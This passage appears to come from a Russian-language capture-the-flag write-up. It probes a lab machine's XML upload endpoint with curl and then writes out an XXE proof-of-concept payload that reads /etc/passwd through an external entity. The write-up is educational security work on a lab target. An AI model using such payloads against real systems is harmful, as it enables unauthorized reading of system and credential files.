## XXE тест
Попробуем скрафтить пробный XML, учтя при этом обязательные поля `Author`, `Subject` и `Content`, о которых нас заботливо предупредили. Также, посмотрев на любой валидный фид в формате XML, можно увидеть ту структуру документа, которую ждут от нас создатели ресурса:
```xml
<!-- xxe-test.xml -->

<entry>
	<Author>3V1LH4CK3R</Author>
	<Subject>3V1LH4CK3R's subject</Subject>
	<Content>3V1LH4CK3R's content</Content>
</entry>
```

`<entry> ... </entry>` можно заменить на любой другой тег — главное, чтобы 3 обязательные сущности `Author`, `Subject` и `Content` были завернуты во внешнюю структуру. [Спецификация RSS 2.0](https://validator.w3.org/feed/docs/rss2.html#hrelementsOfLtitemgt "RSS 2.0 specification"), например, настаивает, что он должен называться `<item> ... </item>`, но в нашем случае это не играет никакой роли.

Для удобства загружать подготовленный XML с нагрузкой можно Burp'ом, а можно curl'ом прямо из консоли. Мне приятнее второй вариант:
```text
root@kali:~# curl -X POST -F "file=@xxe-test.xml; filename=test.xml" http://10.10.10.91:5000/upload
 PROCESSED BLOGPOST:
  Author: 3V1LH4CK3R
 Subject: 3V1LH4CK3R's subject
 Content: 3V1LH4CK3R's content
 URL for later reference: /uploads/test.xml
 File path: /home/roosa/deploy/src
```

Содержимое документа нам вернулось, поэтому с уверенностью могу предположить, что XXE пройдет успешно, т. к. нам нужно всего лишь подключить внешнюю сущность, вызвать ее и посмотреть на возвращенный результат.

В качестве бонуса мы получили имя пользователя `roosa` и место хранения загруженных файлов. Просмотреть то, что только что было загружено, очевидно, можно так:
```text
root@kali:~# curl http://10.10.10.91:5000/uploads/test.xml
<entry>
        <Author>3V1LH4CK3R</Author>
        <Subject>3V1LH4CK3R's subject</Subject>
        <Content>3V1LH4CK3R's content</Content>
</entry>
```

## XXE Proof-of-Concept
Подсмотрев классический пример вредоносной XXE-инъекции на [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection "PayloadsAllTheThings/XXE injection at master · swisskyrepo/PayloadsAllTheThings"), создадим такой файл:
```xml
<!-- xxe-poc.xml -->

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
	<!ELEMENT foo ANY>
	<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<entry>
	<Author>3V1LH4CK3R</Author>
	<Subject>3V1LH4CK3R's subject</Subject>
	<Content>&xxe;</Content>
</entry>
```
